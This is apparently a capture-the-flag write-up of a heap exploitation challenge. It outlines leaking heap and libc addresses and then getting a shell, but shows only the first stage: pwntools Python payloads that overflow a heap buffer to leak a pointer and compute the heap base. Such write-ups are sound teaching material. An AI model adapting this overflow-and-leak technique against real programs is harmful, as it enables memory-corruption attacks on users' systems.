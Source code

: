 Summary:
- Stage 1: Leak heap address
- Stage 2: Leak libc address
- Stage 3: Get shell

# 3. Exploit

### Stage 1: Leak heap address

First, we create a chunk for `new_data->buffer` with size `0x40` and do nothing:

```python
payload = b'+'.ljust(4, b'\0')
payload += p32(0x20000008)       # size
payload += p32(5)                # arg1
payload += p32(6)                # arg2
payload = payload.ljust(0x80, b'A')
p.send(payload)

payload = cyclic(0x8)
p.sendafter(b'feedback:', payload)
p.recvline()
```

Next, let's create the same chunk for `new_data->buffer` with the same size `0x40` and overwrite to byte different from null byte until we meet the first heap address, the program will print the address out and we have heap address leaked:

```python
payload = b'+'.ljust(4, b'\0')
payload += p32(0x20000008)       # size
payload += p32(5)                # arg1
payload += p32(6)                # arg2
payload = payload.ljust(0x80, b'A')
p.send(payload)

payload = flat(
    # new_data->buffer
    b'A'*0x48,

    # result_str
    0xffffffffffffffff,
    b'B'*0x88,

    # obj
    0xffffffffffffffff,
    )
p.sendafter(b'feedback:', payload)
p.recvuntil(b'B'*0x88 + p64(0xffffffffffffffff))
heap_leak = u64(p.recv(6) + b'\0\0')
heap_base = heap_leak - 0x320
log.info("Heap base: " + hex(heap_base))
```
